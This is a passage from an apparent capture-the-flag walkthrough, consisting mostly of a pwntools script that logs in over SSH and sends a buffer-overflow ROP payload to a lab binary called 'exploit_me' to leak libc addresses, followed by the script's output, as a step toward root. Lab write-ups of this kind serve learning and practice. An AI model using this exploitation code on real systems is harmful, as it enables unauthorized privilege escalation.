 We can use the following payload to get root:```

```python
from pwn import *

user = "zeeshan"
port = 22
host = "IP"
private_key = "id_rsa"

ssh_connection = ssh(host=host, user=user, keyfile=private_key, port=port)

# Load the binary
context.binary = binary = ELF("./exploit_me", checksec=False)
_ROP = ROP(binary)


padding = b'A' * 40
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
plt_puts_address = p64(binary.plt.puts)
got_puts_address = p64(binary.got.puts) 
got_gets_address = p64(binary.got.gets)
got_setuid_address = p64(binary.got.setuid)
main_address = p64(binary.symbols.main)

payload = padding
payload += pop_rdi_ret_address + got_puts_address + plt_puts_address
payload += pop_rdi_ret_address + got_gets_address + plt_puts_address
payload += pop_rdi_ret_address + got_setuid_address + plt_puts_address
payload += main_address

p = ssh_connection.process("/exploit_me")
p.recvline()
p.sendline(payload)
output = p.recv().split(b"\n")

# Left-justify the returned hex so it can be unpacked.
puts_address = u64(output[0].ljust(8, b"\x00"))
gets_address = u64(output[1].ljust(8, b"\x00"))
setuid_address = u64(output[2].ljust(8, b"\x00"))

print(f"Puts address: {hex(puts_address)}")
print(f"Gets address: {hex(gets_address)}")
print(f"Setuid address: {hex(setuid_address)}")
```

With the script from above, we can get this:

```python
python3 root.py
[+] Connecting to 10.10.142.145 on port 22: Done
[*] zeeshan@10.10.142.145:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
    SHSTK:    Disabled
    IBT:      Disabled
[*] Loaded 14 cached gadgets for './exploit_me'
[+] Starting remote process None on 10.10.142.145: pid 7558
[!] ASLR is disabled for '/exploit_me'!
Puts address: 0x7f2227e826a0
Gets address: 0x7f2227e81d90
Setuid address: 0x7f2227ee0330
```